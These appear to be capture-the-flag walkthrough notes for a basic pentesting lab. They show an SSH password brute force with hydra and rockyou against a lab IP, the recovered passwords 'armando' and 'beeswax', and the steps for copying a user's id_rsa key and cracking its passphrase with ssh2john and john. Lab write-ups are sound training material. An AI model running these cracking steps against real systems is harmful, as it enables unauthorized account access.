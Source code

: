 ### For jan:
username - jan
password - armando(Cracked via hydra)
**Command** - 
```python
hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.128.200 -t 4 ssh
```
### For kay:
username - kay
**Access this account via ssh private key**
**Passphrase** - beeswax(get the passphrase for private key via johntheripper)
**Command** - 
1. Get the id_rsa key from kay’s directory and save it in our
```
cd /home/kay  
cd .ssh  
cat id_rsa
```
then copy the private key and save it on your system and make the as a format that is understandable by john using below command.
```python
ssh2john id_rsa.txt > id_rsa_hash.txt
```

2. Cracking the key for passphrase
```python
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa_hash.txt
```
![[basicPen7.png]]

3. Accessing as kay
![[basicPen8.png]]

